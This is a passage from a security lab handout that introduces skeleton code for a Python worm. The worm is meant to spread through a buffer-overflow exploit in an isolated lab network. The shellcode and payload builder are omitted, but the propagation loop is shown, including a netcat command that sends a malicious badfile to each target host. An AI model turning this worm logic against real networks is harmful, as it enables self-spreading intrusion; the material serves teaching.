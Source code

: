 ### 4.1 The Skeleton Code

We provide a skeleton code in the `Labsetup/worm` folder. We will complete this code gradually, one thing at a time in each task. In this task, we focus on completing the `createBadfile ()` function, which is to generate the malicious payload for the buffer-overflow attack. We will launch this attack against our first target. We can choose any host as our first target. In the code, we have hard-coded the target `10.151.0.71`. (Line ➀). Students should feel free to change it. In a later task, we will generate the target IP address, instead of hard-coding one.
<Br>
&emsp; To help visualize the attack, we let the worm run a ping command in the background once it successfully gets into a victim host (see Line ➁). This command sends out an ICMP echo message to a non-existing machine every 2 seconds. Our Map application will flash the node after seeing its ICMP messages. That is just one way to visualize the compromised hosts.

<p align="center">Listing 1: The attack code: `worm.py`</p>

```
shellcode= (
    ... code omitted (will be discussed later) ...
).encode(’latin-1’)

# Find the next victim (return an IP address)
def getNextTarget():
    return ’10.151.0.71’                                         ➀

# Create the badfile (the malicious payload)
def createBadfile():
    ... code omitted (will be discussed later) ...

############################################################
print("The worm has arrived on this host ˆ_ˆ", flush=True)

# Run the ping program in the background
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)            ➁

# Create the badfile
createBadfile()

while True:
    targetIP = getNextTarget()

    # Send the malicious payload (smaller payload) to the target host
    # This is done via exploiting the server’s vulnerability
    # It will block until the command exits
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"],
                        shell=True, stdin=None, close_fds=True)

    # Sleep for 1000 seconds before attacking another host
    # We will reduce this value later
    time.sleep(1000)
```

### 4.2 Creating the badfile
